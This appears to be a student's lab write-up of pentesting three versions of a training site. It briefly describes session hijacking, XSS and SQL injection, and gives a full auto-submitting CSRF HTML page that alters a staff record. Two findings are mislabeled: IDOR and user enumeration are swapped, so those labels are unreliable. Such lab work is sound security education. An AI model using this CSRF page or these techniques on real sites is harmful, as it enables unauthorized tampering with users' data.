




# Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking
- We login to the compromised website with packet interception on. Inspecting the packet reveals that the sessionid field is visible as plaintext in Burp Suite. This session id is copied as is and pasted in a new window in a different browser. The user is logged in automatically without the need to enter credentials.


Vulnerability #2: Cross-Site Scripting (XSS)
- The feedback form page text entry box can be used to inject javascripts. These javascripts run when the user logs in and checks the received feedbacks.



## Green

Vulnerability #1: SQL Injection
- Sales Person information was up for grabs due to lack of SQL Input Sanitation as seen below:



Vulnerability #2: IDOR
- When trying to log in with a username not in the system, the Login Unsuccessful text displayed is normally, but when trying to do the same with a user that has an account in the system, the text is displayed as bold.



## Red

Vulnerability #1: User Enumeration
- The URL of the details of the Salesperson's information shows simple numerical sequencing to find user information. This can be used to find data of users, even the ones that are not listed on the page.


Vulnerability #2: CSRF
- The feedback form is used to show a mailicious link to the user. If the user follows the link, the data in the website is altered from the HTML Code:
```<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=2" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Sherry Hacked" /><br />
			<input type="text" name="last_name" value="Trevino Hacked" /><br />
			<input type="text" name="phone" value="282-191-111" /><br />
			<input type="text" name="email" value="hacked@hacked.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
</html>
```

